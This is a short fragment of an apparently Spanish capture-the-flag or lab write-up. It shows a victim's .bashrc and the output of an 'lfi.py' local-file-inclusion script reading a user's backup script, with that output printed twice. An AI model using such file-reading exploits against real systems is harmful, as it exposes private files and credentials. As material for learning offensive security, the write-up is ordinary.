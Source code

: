 ```null
#export GCC_COLORS='error=01;31:warning=01;35:note=01;36:caret=01;32:locus=01:quote=01'

# some more ls aliases
alias ll='ls -alF'
alias la='ls -A'
alias l='ls -CF'

# custom
alias backup_home='/bin/bash /home/bean/Documents/backup_home.sh'

# Add an "alert" alias for long running commands.  Use like so:
#   sleep 10; alert
alias alert='notify-send --urgency=low -i "$([ $? = 0 ] && echo terminal || echo error)" "$(history|tail -n1|sed -e '\''s/^\s*[0-9]\+\s*//;s/[;&|]\s*alert$//'\'')"'

# Alias definitions.
# You may want to put all your additions into a separate file like
# ~/.bash_aliases, instead of adding them here directly.
# See /usr/share/doc/bash-doc/examples in the bash-doc package.

if [ -f ~/.bash_aliases ]; then
    . ~/.bash_aliases
fi

# enable programmable completion features (you don't need to enable
# this, if it's already enabled in /etc/bash.bashrc and /etc/profile
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi
```

```null
python3 lfi.py /home/bean/Documents/backup_home.sh
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```

Puedo ver su contenido

```null
python3 lfi.py /home/bean/Documents/backup_home.sh
#!/bin/bash
mkdir /home/bean/Documents/backup_tmp
cd /home/bean
tar --exclude='.npm' --exclude='.cache' --exclude='.vscode' -czvf /home/bean/Documents/backup_tmp/bean_backup.tar.gz .
date > /home/bean/Documents/backup_tmp/time.txt
cd /home/bean/Documents/backup_tmp
tar -czvf /home/bean/Documents/backup/bean_backup_final.tar.gz .
rm -r /home/bean/Documents/backup_tmp
```
